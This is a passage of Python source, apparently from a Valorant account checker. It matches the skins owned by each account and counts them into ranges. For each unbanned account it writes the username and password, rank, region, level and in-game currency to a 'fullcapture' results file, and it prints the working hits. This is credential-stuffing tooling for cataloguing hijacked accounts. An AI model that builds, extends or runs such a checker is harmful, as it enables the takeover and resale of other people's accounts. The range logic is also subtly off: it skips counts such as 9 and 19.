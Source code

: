             skins = r.json()["Entitlements"]
            for skin in skins:
                UidToSearch = skin['ItemID']
                for item in skinsList:
                    details = item.split("|")
                    namePart = details[0]
                    idPart = details[1]
                    name = namePart.split(":")[1]
                    id = idPart.split(":")[0].lower()
                    if id == UidToSearch:
                        userSkins.append(name)
                        SkinStr += "| " + name + "\n"
            skin_amount = len(userSkins)
            skin_amount = int(skin_amount)
            if skin_amount == 0:
                no_skins += 1
            elif skin_amount in range(1, 9):
                _1_9 += 1
                skinned += 1
            elif skin_amount in range(10, 19):
                _10_19 += 1
                skinned += 1
            elif skin_amount in range(20, 29):
                _20_29 += 1
                skinned += 1
            elif skin_amount in range(30, 39):
                _30_39 += 1
                skinned += 1
            elif skin_amount in range(40, 49):
                _40_49 += 1
                skinned += 1
            elif skin_amount in range(50, 99):
                _50_99 += 1
                skinned += 1
            elif skin_amount in range(100, 150):
                _100_150 += 1
                skinned += 1
            elif skin_amount in range(151,1000):
                _151 += 1
                skinned += 1
            else:
                errors += 1
            if typebanned == None:
                typebanned = "Unbanned"
                bannedtxt12 = open("results//fullcapture.txt", "a+", encoding='utf-8')
                bannedtxt12.write(f"[--------------[Valorant]--------------]\n| User&Pass: {username}:{password}\n| Banntype: {typebanned}\n| Last Game: {last_time}\n| Region: {Region}\n| Level: {AccountLevel}\n| Email Verified: {EmailVerified}\n| Creation: {result_s}\n| Rank: {Rank}\n| VP: {ValorantPoints} - RP: {Radianite}\n|-------------[Skins({len(userSkins)})]-------------]\n{SkinStr}[------------------------------------]\n\n")
                bannedtxt12.close()
                if choice == 3:
                    print(f"{Fore.GREEN}[Good]{Fore.RESET} User&Pass: {username}:{password} | Banntype: {typebanned} | Last Game: {last_time} | Region: {Region} | Level: {AccountLevel} | Email Verified: {EmailVerified} | Creation: {result_s} | Rank: {Rank} | VP: {ValorantPoints} - RP: {Radianite} [Skins({len(userSkins)})]")
                good += 1
                continue
checker()
